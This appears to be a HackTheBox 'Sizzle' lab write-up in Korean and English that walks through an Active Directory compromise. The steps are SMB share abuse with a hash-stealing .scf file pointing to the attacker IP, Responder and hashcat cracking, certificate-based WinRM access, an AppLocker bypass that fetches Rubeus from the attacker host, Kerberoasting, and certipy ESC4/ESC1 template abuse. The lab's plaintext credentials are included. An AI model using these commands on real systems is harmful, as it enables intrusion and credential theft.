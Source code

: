 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### Web Enum
```bash
gobuster dir -u 10.129.89.62 -w /usr/share/wordlists/dirb/common.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/0890786f6c0ab662374a5b273a0b20d6_MD5.jpeg)
### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

# smb folder mount
sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

sudo responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```

```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.92\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)
### Password Crack
```bash
hashcat -h | grep NTLM
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/bb07d49603b833a15eba2b10bf594f06_MD5.jpeg)

### Evil-WinRM [Key Auth]
WinRM은 기본적으로 ID/PW 기반의 기본 인증을 통해 인증하지만, 인증서 기반 인증을 통해 인증할 수도 있다.
```bash
# openssl 통한 CSR 파일 생성
openssl req -new -newkey rsa:2048 -nodes -keyout private.key -out request.csr

# 그 후 http://10.129.89.62/certsrv/ : amanda : Ashare1972 를 통해 request.csr 업로드 후 cer 다운로드 [사진 참조]
cat request.csr

# 받은 cer로 인증 시도
evil-winrm -S -i 10.129.112.117 -u amanda -p Ashare1972 -c certnew.cer -k private.key
```

![](/assets/images/posts/2025-03-08-Sizzle/3d8b59e04c54f7fa179ee9814a386110_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/d224011add69d27ae61ee3aee5c2a1fc_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/144b5f744e59341ac128e8268ccc74c2_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/8cf46c442ad95dcf7d1e8cd5cd957537_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/02687eaeda255f9a483846f37269bd4d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/4826fff15c51a7fcbd0059136518aa59_MD5.jpeg)
#### WinRM Shell [번외]
```bash
gem install winrm

# winrm_shell.rb 생성
require 'winrm'  
  
#Append necessary changes in winrm_shell.rb  
conn = WinRM::Connection.new(  
endpoint: 'https://10.10.10.103:5986/wsman' ,  
transport: :ssl,  
:client_cert => 'certnew.cer' , # from the server  
:client_key => 'private.key' , # private key  
:no_ssl_peer_verification => true)  
  
command=""  
  
conn.shell(:powershell) do |shell|  
	until command == "exit\n" do  
		output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")  
	print(output.output.chomp)  
		command = gets  
		output = shell.run(command) do |stdout, stderr|  
			STDOUT.print stdout  
			STDERR.print stderr  
		end  
	end  
	puts "Exiting with code #{output.exitcode}"  
end

# 실행
ruby winrm_shell.rb
```
### AppLocker Bypass
.exe, .ps1 등 실행이 안된다면 AppLocker 우회 방법을 통해 우회 시도

```powershell
# 내부적으로 88 port가 열려있음을 알 수 있음 -> 커버로스 관련 공격 가능
netstat -ap tcp

# blocked
iwr -uri http://10.10.14.92:8000/Rebeus.exe -OutFile Rebeus.exe
.\Rebeus.exe

# bypass
# https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
Move-Item -Path C:\Users\amanda\Desktop\Rubeus.exe -Destination C:\Windows\Temp\Rubeus.exe
cd C:\Windows\Temp
.\Rubeus.exe
```

![](assets/images/posts/2025-03-08-Sizzle/33c7c6b55545b8aaef121dcbd2651785_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/d49bb89ba91bb4d4ce46302d97521c9e_MD5.jpeg)
### Rubeus.exe
```powershell
# roasting 시도
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```
![](assets/images/posts/2025-03-08-Sizzle/5a76f4478ad69812193c9b1145cc27d1_MD5.jpeg)

### Password Crack
```bash
hashcat -h | grep Kerber
hashcat -m 13100 mrlky.hash /usr/share/wordlists/rockyou.txt

Football#7
```
![](assets/images/posts/2025-03-08-Sizzle/7bf8524e98b4167a2e95ebe5b769832a_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/1e8d922214b3f9119cad72d91c656c92_MD5.jpeg)

### BloodHound
```bash
bloodhound-python -c All -u 'mrlky' -p 'Football#7' -d 'htb.local' -ns 10.129.112.117 --zip
```

## 실패 모음
### AD CS [Active Directory Certificate Services]
88 Port [커버로스] 닫혀있어서 실패...
```bash
# http://10.129.89.62/certsrv/ : amanda : Ashare1972
certipy find -u amanda -p Ashare1972 -dc-ip 10.129.112.117 -vulnerable

# ESC4 Exploit : ECS4는 취약한 템플릿을 만들 수 있는 취약점
certipy template -dc-ip 10.129.112.117 -u amanda -p 'Ashare1972' -template SSL -target sizzle.htb.local -save-old

certipy req -ca 'HTB-SIZZLE-CA' -dc-ip 10.129.112.117 -u 'amanda' -p 'Ashare1972' -template SSL -target 'sizzle.htb.local' -upn 'Authenticated Users@htb.local'

# 그 후 다시 vuln 조사하면 ESC1이 취약함으로 변경 됨.
# ESC1 Exploit : 
certipy req -u amanda -p 'Ashare1972' -ca 'HTB-SIZZLE-CA' -template SSL -dc-ip 10.129.112.117 -upn 'Administrator@htb.local'

# in Linux
certpy auth -pfx administrators.pfx -dc-ip 10.129.112.117
```
![](/assets/images/posts/2025-03-08-Sizzle/0b7776e5bf429f95044c8fb4e5e9c1f3_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/90fd5a11b99e4b8479c6619b5c6b0f68_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/f87d0086ead259e73afd7b15405c377c_MD5.jpeg)

![](/assets/images/posts/2025-03-08-Sizzle/74208aab76029e691df0a9d30c327b77_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/58218e4bf47327c33fc31589180b1f64_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/06a2d4d6f3b323ac6a2224ff2203209d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/50f1e956227263d7c075ce19186f646b_MD5.jpeg)
### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

ESC1, ESC2 취약함
"SUBCA@HTB.LOCAL"
Template Name : SubCA
```

```
Credential

amanda : Ashare1972
```